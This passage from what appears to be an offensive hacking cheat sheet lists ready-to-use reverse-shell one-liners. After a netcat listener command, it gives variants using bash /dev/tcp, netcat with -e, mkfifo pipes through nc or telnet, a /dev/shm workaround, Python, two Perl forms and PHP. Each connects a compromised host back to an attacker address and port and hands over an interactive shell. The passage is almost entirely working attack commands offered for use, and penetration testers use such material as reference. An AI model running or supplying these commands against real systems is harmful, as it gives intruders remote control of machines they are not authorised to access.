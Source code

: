 $ nc -nvlp 1524

On the remote system, this command will connect back to your system (IP = 3.13.3.7, Port 1524) and give you a shell prompt:

$ setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &

5.i.b. Reverse shell without Bash

Especially embedded systems do not always have Bash and the /dev/tcp/ trick will not work. There are many other ways (Python, PHP, Perl, ..). Our favorite is to upload netcat and use netcat or telnet:

On the remote system:

$ nc -e /bin/bash -vn 3.13.3.7 1524

Variant if '-e' is not supported:

$ mkfifo /tmp/.io
$ sh -i 2>&1 </tmp/.io | nc -vn 3.13.3.7 1524 >/tmp/.io

Telnet variant:

$ mkfifo /tmp/.io
$ sh -i 2>&1 </tmp/.io | telnet 3.13.3.7 1524 >/tmp/.io

Telnet variant when mkfifo is not supported (Ulg!):

$ (touch /dev/shm/.fio; sleep 60; rm -f /dev/shm/.fio) &
$ tail -f /dev/shm/.fio | sh -i 2>&1 | telnet 3.13.3.7 1524 >/dev/shm/.fio

Note: Use /tmp/.fio if /dev/shm is not available. Note: This trick logs your commands to a file. The file will be unlinked from the fs after 60 seconds but remains useable as a 'make shift pipe' as long as the reverse tunnel is started within 60 seconds.

5.i.c. Reverse shell with Python

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.13.3.7",1524));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

5.i.d. Reverse shell with Perl

# method 1
$ perl -e 'use Socket;$i="3.13.3.7";$p=1524;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# method 2
$ perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"3.13.3.7:1524");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'

5.i.e. Reverse shell with PHP

php -r '$sock=fsockopen("3.13.3.7",1524);exec("/bin/bash -i <&3 >&3 2>&3");'
